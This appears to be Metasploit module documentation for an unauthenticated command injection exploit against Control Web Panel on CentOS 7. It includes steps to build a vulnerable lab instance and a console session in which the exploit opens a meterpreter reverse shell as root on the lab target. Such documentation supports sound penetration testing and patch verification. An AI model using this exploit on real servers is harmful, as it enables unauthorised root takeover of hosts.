 ## Vulnerable Application

Control Web Panel versions < 0.9.8.1147 are vulnerable to unauthenticated OS command injection. Successful
exploitation results in code execution as the root user. The results of the command are not not contained
within the HTTP response and the request will block while the command is running.

## Verification Steps
Example steps in this format (is also in the PR):

1. Start with a fresh instance of CentOS 7 x64 and run the following commands, modified from the original:
   1. `yum -y install wget`
   2. `yum -y update`
   3. reboot
   4. `cd /usr/local/src`
   5. `wget https://centos-webpanel.com/cwp-el7-latest`
   6. `sed -i 's/0\.9\.8\.[0-9]\+/0.9.8.1146/g' cwp-el7-latest`
   7. `sed -i 's/^\(sh \/scripts\/update_cwp\)/# \1/g' cwp-el7-latest`
   8. `sh cwp-el7-latest`
   9. `sed -i '1i exit 0' /usr/local/cwpsrv/htdocs/resources/scripts/update_cwp`
2. Start Metasploit
3. Run: `control_web_panel_login_cmd_exec`
4. Set RHOST and LHOST
5. Run the exploit, see that a session is opened

Check the version with `grep webpanel_version /usr/local/cwpsrv/htdocs/resources/admin/include/version.php`

## Options

## Scenarios

### CWP Version 0.9.8.1146 on CentOS 7

```
msf6 > use exploit/linux/http/control_web_panel_login_cmd_exec
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/control_web_panel_login_cmd_exec) > set RHOSTS 192.168.159.9
RHOSTS => 192.168.159.9
msf6 exploit(linux/http/control_web_panel_login_cmd_exec) > set TARGET Unix\ Command
TARGET => Unix Command
msf6 exploit(linux/http/control_web_panel_login_cmd_exec) > set PAYLOAD cmd/unix/python/meterpreter/reverse_tcp
PAYLOAD => cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/control_web_panel_login_cmd_exec) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(linux/http/control_web_panel_login_cmd_exec) > check
[*] 192.168.159.9:2031 - The target appears to be vulnerable. Successfully tested command injection.
msf6 exploit(linux/http/control_web_panel_login_cmd_exec) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Successfully tested command injection.
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] Sending stage (24380 bytes) to 192.168.159.9
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.9:36154) at 2023-01-19 16:05:42 -0500

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : Linux 3.10.0-1160.81.1.el7.x86_64 #1 SMP Fri Dec 16 17:29:43 UTC 2022
Architecture : x64
Meterpreter  : python/linux
meterpreter > 
```
